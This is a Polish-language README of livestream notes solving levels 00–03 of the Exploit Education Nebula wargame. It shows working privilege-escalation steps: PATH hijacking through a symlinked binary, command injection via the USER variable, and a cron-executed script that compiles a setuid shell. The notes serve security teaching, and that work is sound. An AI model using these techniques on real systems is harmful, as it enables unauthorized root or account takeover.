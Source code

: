 # Exploit Education: Nebula

Repozytorium pomocnicze dla livestreamów. Pracujemy na:

```
$ sha1sum ~/Downloads/exploit-exercises-nebula-5.iso
e82f807be06100bf3e048f82e899fb1fecc24e3a  /Users/ad/Downloads/exploit-exercises-nebula-5.iso
```

Streamy dostępne poniżej:

* Livestream #1: Nebula level00-03 👉 [https://www.youtube.com/watch?v=v8kkpGhS1vw](https://www.youtube.com/watch?v=v8kkpGhS1vw)

# Notatki

## Level 0

Opis do zadania dostępny [tutaj](https://exploit.education/nebula/level-00/).

Szukamy `flag00` po całym systemie plików:

```
level00@nebula:~$ find / | grep flag00
/bin/.../flag00
find: `/etc/chatscripts': Permission denied
find: `/etc/ppp/peers': Permission denied
find: `/etc/ssl/private': Permission denied
/home/flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
find: `/home/flag01': Permission denied

[ ... ]
```

W opisie zadania było mówione o dziwnie wyglądającej ścieżce, `/bin/...` jest taką ścieżką:

```
level00@nebula:~$ cd /bin/.../
level00@nebula:/bin/...$ ls
flag00
level00@nebula:/bin/...$ whoami
level00
level00@nebula:/bin/...$ ./flag00
Congrats, now run getflag to get your flag!
flag00@nebula:/bin/...$ whoami
flag00
flag00@nebula:/bin/...$ /bin/getflag
You have successfully executed getflag on a target account
```

## Level 1

Opis do zadania dostępny [tutaj](https://exploit.education/nebula/level-01/).

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?"); [1]
}
```

Linia [1] jest podatna na atak poprzez środowisko i link symboliczny:

```
level01@nebula:~$ /home/flag01/flag01
and now what?
level01@nebula:~$ ln -s /bin/getflag echo
level01@nebula:~$ ls -alh
total 5.0K
drwxr-x--- 1 level01 level01   80 Mar 27 09:12 .
drwxr-xr-x 1 root    root     140 Aug 27  2012 ..
-rw-r--r-- 1 level01 level01  220 May 18  2011 .bash_logout
-rw-r--r-- 1 level01 level01 3.3K May 18  2011 .bashrc
drwx------ 2 level01 level01   60 Mar 27 09:12 .cache
-rw-r--r-- 1 level01 level01  675 May 18  2011 .profile
lrwxrwxrwx 1 level01 level01   12 Mar 27 09:12 echo -> /bin/getflag
level01@nebula:~$ /home/flag01/flag01
and now what?
level01@nebula:~$ ./echo
getflag is executing on a non-flag account, this doesn't count
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$ export PATH=/home/level01:$PATH
level01@nebula:~$ echo $PATH
/home/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account
```

## Level 2

Opis do zadania dostępny [tutaj](https://exploit.education/nebula/level-02/).

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER")); [1]
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer); [2]
}
```

Prosty przykład podatności `CMD Injection`. W tym wypadku tworzony string zawiera zmienną środowiskową `$USER` [1], a następnie jest użyty przy wywołaniu funkcji `system()` [2].

```
level02@nebula:~$ export USER="&& /bin/getflag"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo && /bin/getflag is cool")

You have successfully executed getflag on a target account
```

## Level 3

Opis do zadania dostępny [tutaj](https://exploit.education/nebula/level-03/).

Na streamie problem z wykonaniem pliku SUID spowodowany był kompilacją pliku wykonywalnego do katalogu `/tmp`, który zamontowany jest w trybie `nosuid`:

```
level03@nebula:~$ mount | awk '$3 == "/tmp"'
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
```

Jeżeli zamienimy katalog na `/home/flag03` (użytkownik `flag03` musi mieć prawo pisania) to wszystko zadziała jak należy:

```
level03@nebula:/home/flag03/writable.d$ cat /tmp/pwn.c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	system("/bin/sh");
	return 0;
}
level03@nebula:/home/flag03/writable.d$ echo "gcc /tmp/pwn.c -o /home/flag03/pwn && chmod +s /home/flag03/pwn" > pwn.sh
level03@nebula:/home/flag03/writable.d$ cd ..
level03@nebula:/home/flag03$ ls -alh
total 18K
drwxr-x--- 1 flag03 level03  100 Mar 27 08:49 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
-rw------- 1 flag03 flag03    50 Mar 27 07:37 .bash_history
-rw-r--r-- 1 flag03 flag03   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag03 flag03  3.3K May 18  2011 .bashrc
-rw-r--r-- 1 flag03 flag03   675 May 18  2011 .profile
-rwsrwsr-x 1 flag03 flag03  7.0K Mar 27 08:49 pwn
drwxrwxrwx 1 flag03 flag03    40 Mar 27 08:49 writable.d
-rwxr-xr-x 1 flag03 flag03    98 Nov 20  2011 writable.sh
level03@nebula:/home/flag03$ whoami
level03
level03@nebula:/home/flag03$ ./pwn
sh-4.2$ whoami
flag03
sh-4.2$ /bin/getflag
You have successfully executed getflag on a target account
```

# Referencje

* [Exploit Education: Nebula](https://exploit.education/nebula/)
